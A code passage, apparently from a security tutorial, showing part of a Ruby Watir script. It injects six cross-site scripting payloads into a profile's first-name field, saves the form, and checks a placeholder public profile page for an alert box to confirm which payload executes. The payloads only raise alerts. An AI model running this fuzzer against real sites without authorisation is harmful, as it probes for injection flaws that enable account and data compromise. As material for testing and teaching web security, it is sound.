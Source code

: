```
    @browser.text_field(id: 'txtFirstName').set(payload)                        # Set payload to the text area
    @browser.button(name: '$actionsElem$save').click                            # Click Save button

  rescue Selenium::WebDriver::Error::UnhandledAlertError
    @browser.refresh                            # Refresh the current page
    @wait.until {@browser.alert.exists?}        # Check if alert box appear
  end
end

payloads =
  [
    "\"><video src=x onerror=alert(1);>",
    "<img src=x onerror='alert(2)'>",
    "<script>alert(3)</script>",
    "<svg/OnlOad=prompt(4)>",
    "javascript:alert(5)",
    "alert(/6/.source)"
  ]

puts "[*] Exploitation start"
puts "[*] Number of payloads: #{payloads.size} payloads"

@browser.send_keys(:control, 't')                               # Sent Ctrl+T to open new tab
@browser.goto "http://example.com/pub_prof/user/silver.aspx"    # Goto the use's public profile
@browser.switch                                                 # Make sure to focus on current tab/window

payloads.each do |payload|

  @browser.send_keys(:alt, '1')                                     # Send Alt+1 to go to first tab
  sendpost payload
  puts "[*] Sending to '#{@browser.title}' Payload : #{payload}"
  @browser.send_keys(:alt, '2')                                     # Send Alt+2 to go to second tab
  @browser.switch
  @browser.refresh
  puts "[*] Checking Payload Result on #{@browser.title}"

  if @browser.alert.exists?
    @browser.alert.ok
    puts
    puts "[+] Exploit found!: " + payload
    @browser.close
    exit 0
  end

end

@browser.close
puts 
```

